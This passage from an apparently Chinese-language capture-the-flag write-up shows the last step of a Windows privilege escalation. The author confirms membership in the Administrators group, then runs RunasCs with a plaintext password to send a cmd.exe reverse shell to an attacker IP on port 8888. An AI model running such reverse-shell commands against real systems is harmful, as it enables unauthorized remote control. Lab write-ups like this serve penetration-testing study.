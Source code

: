 查看是否已经加入了管理员组

```
PS C:\Temp> net localgroup Administrators                                                                   
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
M.SchoolBus
The command completed successfully.
```

可以看到尽管已经在管理员组，但是无法读取到**root.txt**

![](./images/image-303.png)

因为需要重新登录，但是这里如果直接**exit**退出，有一定概率再也连不上**PS**，所以这里我用**RunasCS**来开启另一个进程，间接刷新。

```
PS C:\Temp>  .\RunasCs.exe M.SchoolBus !suBcig@MehTed!R cmd.exe -r 10.10.xx.xx:8888

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-67acc$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 3644 created in background.
```
